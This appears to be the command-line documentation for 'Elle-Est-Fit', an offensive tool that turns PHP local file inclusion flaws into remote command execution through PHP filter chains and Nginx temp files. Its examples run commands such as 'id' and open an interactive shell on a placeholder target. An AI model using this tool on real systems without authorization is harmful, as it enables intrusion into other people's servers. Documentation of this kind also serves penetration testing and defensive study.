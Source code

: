 # Elle-Est-Fit CLI Documentation



## Basic Usage

```bash
elle-est-fit --url 'http://vulnerable.com/?page=FUZZ' [options]
```

Replace `FUZZ` in the URL with the placeholder where the LFI payload should be injected.

## Command-Line Options

### Target Options
- `--url URL`: Target URL with LFI vulnerability (use FUZZ as the placeholder for the LFI path)

### Technique Options
- `--technique NAME`: Specify a particular technique to use (default: auto-detect)
- `--list-techniques`: Display all available exploitation techniques
- `--dump-chain CODE`: Generate and display a PHP filter chain for the given PHP code
- `--test-chain CHAIN`: Test a specific PHP filter chain against the target URL

### Encoding Options
- `--double-url-encode`: Apply double URL encoding to the payload
- `--tamper CODE`: Python code for custom tampering function

### Payload Options
- `--php CODE`: Custom PHP code to execute
- `--custom-cmd CMD`: Custom system command to execute

### Output Options
- `-v, --verbose`: Enable verbose output for debugging
- `-q, --quiet`: Suppress non-essential output
- `--interactive`: Start an interactive shell after successful exploitation

## Examples

1. Basic exploitation with PHP filters technique:
```bash
elle-est-fit --url 'http://vulnerable.com/?page=FUZZ' --technique php_filters
```

2. Execute a custom command with double URL encoding:
```bash
elle-est-fit --url 'http://vulnerable.com/?page=FUZZ' --double-url-encode --custom-cmd 'id'
```

3. Use Nginx temporary files technique with custom PHP code:
```bash
elle-est-fit --url 'http://vulnerable.com/?page=FUZZ' --technique nginx_temp_files --php 'passthru("id");'
```

4. Generate a PHP filter chain without targeting a URL:
```bash
elle-est-fit --dump-chain '<?php phpinfo(); ?>'
```

5. Start an interactive shell after exploitation:
```bash
elle-est-fit --url 'http://vulnerable.com/?page=FUZZ' --interactive
```

## Interactive Shell

When using the `--interactive` flag, you'll get access to an interactive shell where you can:
- Execute system commands directly
- Type 'exit' or 'quit' to leave the shell
- Use Ctrl+C to interrupt operations

## Error Handling

The tool provides different levels of error output:
- Use `--verbose` for detailed error messages and debugging information
- HTTP 414 errors may occur with long payloads - try shorter payloads in such cases
- The tool will display clear error messages for common issues like missing URLs or invalid techniques

## Version Information

You can check the tool's version using:
```bash
elle-est-fit --version
```